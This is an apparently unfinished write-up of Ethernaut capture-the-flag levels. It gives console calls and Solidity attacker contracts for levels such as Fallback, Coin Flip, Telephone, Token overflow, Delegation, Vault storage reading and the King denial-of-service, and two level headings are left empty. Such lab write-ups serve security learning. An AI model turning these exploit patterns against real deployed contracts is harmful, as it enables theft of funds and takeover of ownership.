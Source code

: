# 1. Hello Ethernaut
The instructions ask to call the `info()` method
```
contract.info()
```
We follow the output and call:
```
contract.info1()
```
Then...
```
contract.info2("Hello")
```
To get `infoNum`, we call its public getter
```
contract.infoNum()
```
`infoNum()` returns `42` as a BigNumber, so we call `info42()`
```
contract.info42()
```
Following the output again
```
contract.theMethodName()
```
Then...
```
contract.method7123949()
```
To know what is the password, we inspect the contract's ABI
```
contract
```
We call the method `password()`
```
contract.password()
```
We finally pass the output to the `authenticate()` method
```
contract.authenticate("ethernaut0")
```

# 2. Fallback
First of all we need to send the contract an amount that is less than `0.001 ether` in order to make a contribution
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})
```
Afterwards, we send another non-zero amount to become an owner (received by the function `receive()`)
```
contract.sendTransaction({from: player, value: toWei("0.0000001")})
```
We can now withdraw all of the contract's balance using `withdraw()`
```
contract.withdraw()
```

# 3. Fallout
In older Solidity versions, the constructor used to defined with the contract's name.  
So, to claim ownership we call the constructor which is named by mistake `fal1out()` instead of `fallout()` 
```
contract.Fal1out()
```

# 4. Coin Flip
In order to guess the right side, we need to implement the same coin flip generation code then pass the result to the `guess()` function.  
The block time is long enough that the `block.number` doesn't change between function calls.
```Solidity
contract Hack {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function _guess() public view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    return side;
    
    }

    function attack(address _victim) external {
        bool guess = _guess();
        ICoinFlip(_victim).flip(guess);
    }

}
```


# 5. Telephone
In order to claim ownership, we need to call the `changeOwner()` method using an intermediate contract. This way, the `tx.origin` is going to be `player` and the `msg.sender` is going to be the address of the intermediate contract `Hack`.
```
contract Hack {

    function attack(address _victim) external {
        ITelephone(_victim).changeOwner(msg.sender);
    }

}
```

# 6. Token
To increase our balance we use the `transfer()` method.  
However, in order to get the maximum of tokens, we need to ensure that our balance is equal to the maximum value of `uint256`. 
In order to get this value, we substract the amount we already have to prevent an overflow.
```
tokenContract.transfer(msg.sender, type(uint).max - tokenContract.balanceOf(msg.sender)); 
```

# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```


# 8. Force



# 9. Vault
```
web3.eth.getStorageAt(instance, "1")
```

# 10. King
This level consists of a game to claim the King title. Our aim is to break it.  
We notice that the previous king receives `msg.value` using `transfer()` and that the `msg.sender` becomes the king once the transfer is succeeded. But what if this previous king couldn't receive any ether?  
So, in order to break the game, we need to make a contract that can't receive ether, in other words, it doesn't implement a `receive()` nor a `fallabck()` function.
```
contract Hack{
    address public victim;

    constructor(address _victim){
        victim = _victim;
    }

    function attack() public payable{
        (bool success,) = payable(victim).call{value: msg.value}("");
        require(success);
    }

}
```

# 11. Re-entrancy

